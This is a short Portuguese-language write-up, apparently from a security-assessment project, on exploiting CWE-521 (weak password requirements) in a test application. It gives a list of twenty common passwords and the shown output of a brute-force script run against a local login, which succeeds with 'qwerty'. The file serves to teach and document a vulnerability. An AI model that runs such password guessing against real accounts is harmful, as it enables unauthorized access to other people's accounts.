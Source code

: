## CWE-521: Weak Password Requirements
- https://cwe.mitre.org/data/definitions/521.html

**Ver descrição, score e solução no [report.md](../report.md#cwe-521-weak-password-requirements).**

---
## Exploração da vulnerabilidade

Como referido anteriormente, uma das abordagens para explorar esta vulnerabilidade seria recorrer a técnicas *brute force*, usando uma lista de passwords comuns.

```
1. guest
2. 123456
3. password
4. 12345
5. a1b2c3
6. 123456789
7. Password1
8. 1234
9. abc123
10. 12345678
11. qwerty
12. baseball
13. football
14. unknown
15. soccer
16. jordan23
17. iloveyou
18. monkey
19. shadow
20. g_czechout
```

**Código exemplo:**

Ver [código Python](brute_force.py).

**Demonstração:**

```bash
$ python3 brute_force.py target@example.com -p 8001
Try: guest
Failed login!
Try: 123456
Failed login!
Try: password
Failed login!
Try: 12345
Failed login!
Try: a1b2c3
Failed login!
Try: 123456789
Failed login!
Try: Password1
Failed login!
Try: 1234
Failed login!
Try: abc123
Failed login!
Try: 12345678
Failed login!
Try: qwerty
Successful login!
```